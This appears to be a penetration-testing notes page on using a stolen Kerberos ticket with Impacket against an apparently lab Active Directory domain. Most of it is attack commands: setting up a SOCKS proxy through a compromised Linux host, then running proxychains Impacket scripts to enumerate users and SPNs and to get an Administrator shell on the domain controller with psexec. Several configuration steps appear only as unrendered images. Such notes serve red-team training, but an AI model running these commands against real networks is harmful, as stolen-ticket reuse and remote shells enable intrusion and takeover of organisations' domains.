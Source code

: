 # Using Kerberos with Impacket

## **Using Kerberos with Impacket**

### Scenario&#x20;

#### - Domain computer compromised (linux) - User Ccache file owned - Download the ccache into the attacker machine 

### Settings

#### Set Kerberos Env using the stolent ticket

![](<../../../../../.gitbook/assets/image (69) (1).png>)

#### Install krb5-user and add DC into hosts

![](<../../../../../.gitbook/assets/image (70).png>)

#### KRB5.conf configuration

![](<../../../../../.gitbook/assets/image (234).png>)

#### Proxychains

Edit the config file and comment the following line:

![](<../../../../../.gitbook/assets/image (170).png>)

![](<../../../../../.gitbook/assets/image (233).png>)

#### Sock Proxy

Create a sock Proxy on the target compromised linux box :

```csharp
ssh testme@10.110.0.74 -D 1080
```

### Enumerate AD users

```csharp
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator

```

![](<../../../../../.gitbook/assets/image (19) (1).png>)

### Get SPN&#x20;

```csharp
proxychains python3 GetUserSPNs.py -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator
```

### Get a shell

```csharp
proxychains python3 psexec.py -dc-ip 10.110.0.222 Administrator@dc02.CROOK.BADCORP.LOCAL -k -no-pass
```

![](<../../../../../.gitbook/assets/image (27).png>)

